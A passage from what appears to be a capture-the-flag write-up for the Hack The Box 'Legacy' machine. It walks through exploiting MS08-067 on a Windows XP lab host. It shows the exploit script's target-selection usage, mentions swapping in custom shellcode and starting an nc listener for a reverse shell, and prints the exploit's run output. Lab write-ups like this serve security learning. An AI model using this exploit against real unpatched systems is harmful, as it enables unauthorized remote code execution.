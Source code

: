 We will replace the default shellcode given in the script with above one generated.

Looking at the usage of this exploit on line 228, we can see the exploit requires us to know the OS version and Language pack:

```console
      print '\nUsage: %s <target ip> <os #> <Port #>\n' % sys.argv[0]
      print 'Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445'
      print 'Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)'
      print 'Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal'
      print 'Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English'
      print 'Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)'
      print 'Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)'
      print 'Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)'
```
Based on our Nmap results we know the host is running Windows XP and taking a wild guess we can try the exploit with option 6 for `Windows XP SP3 English (NX)`

### Exploitation

Lets start the `nc` listener on port 443 and execute the exploit:

```terminal
cfx:  ~/Documents/htb/legacy
→ /usr/bin/python2 /root/Documents/htb/legacy/ms08-067.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################


$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .


#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```
